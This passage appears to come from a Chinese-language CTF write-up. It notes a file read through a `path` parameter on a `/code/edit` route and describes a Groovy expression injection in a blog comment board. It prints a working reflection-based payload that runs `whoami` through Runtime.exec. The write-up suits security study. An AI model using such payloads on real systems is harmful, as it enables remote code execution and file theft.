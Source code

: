 访问 `/code/edit` 路由，然后传参 `path` 去读 flag 即可，详细地利用方式暂时未知。

### Web 2

这一题是一个 Java 题目，也是比较难去分析，很长一段时间后才被攻破。

博客系统留言板存在 Groovy 表达式注入漏洞，从而 RCE。

```plaintext
#{java.lang.Math.class.forName("java.io.BufferedReader").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName("java.io.InputStreamReader").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("whoami").getInputStream())).readLines();}
```
